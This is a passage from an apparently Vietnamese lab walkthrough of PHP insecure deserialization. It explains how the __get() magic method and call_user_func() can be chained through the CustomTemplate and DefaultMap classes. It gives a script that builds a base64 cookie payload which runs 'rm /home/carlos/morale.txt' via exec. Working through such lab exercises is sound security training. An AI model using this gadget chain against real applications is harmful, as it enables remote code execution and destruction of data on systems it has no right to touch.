 ```php

    public function __get($name) {
        return call_user_func($this->callback, $name);
    }
}

?>
```
Bên cạnh đó trong phần cookie session ta còn được một chuỗi serialize `O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"n4o2f445h2eae87u94elevg5dp26hyfv";}`

Phân tích sơ qua đoạn code ta thấy rằng tại class DefaultMap có magic method `__get()` và hàm `call_user_func()` đây là hàm dùng để gọi bất kỳ function nào.

Một điều đặt biệt nữa là `__get()` chỉ được thực thi khi ta truy cập một thuộc tính private bên ngoài class hoặc không tồn tại thuộc tính đó và để ý class Product có `$this->desc = $desc->$default_desc_type;` sẽ ra sao nếu ta truyền vào một chuỗi? -> điều đó sẽ khiến `__get()` được gọi và ta sẽ có thể thực thi được `call_user_func()`

```php
<?php

class CustomTemplate
{
    public $default_desc_type;
    public $desc;

    public function __construct($default_desc_type, $desc)
    {
        $this->default_desc_type = $default_desc_type;
        $this->desc = $desc;
    }
}

class DefaultMap
{
    public $callback;

    public function __construct($callback)
    {
        $this->callback = $callback;
    }
}

$defaultmap = new DefaultMap('exec');
$custom = new CustomTemplate('rm /home/carlos/morale.txt', $defaultmap);
echo base64_encode(serialize($custom));
// Result: TzoxNDoiQ3VzdG9tVGVtcGxhdGUiOjI6e3M6MTc6ImRlZmF1bHRfZGVzY190eXBlIjtzOjI2OiJybSAvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dCI7czo0OiJkZXNjIjtPOjEwOiJEZWZhdWx0TWFwIjoxOntzOjg6ImNhbGxiYWNrIjtzOjQ6ImV4ZWMiO319
```

Inject to session cookie and we solved the lab.

![image](https://hackmd.io/_uploads/H1qYLIyIA.png)

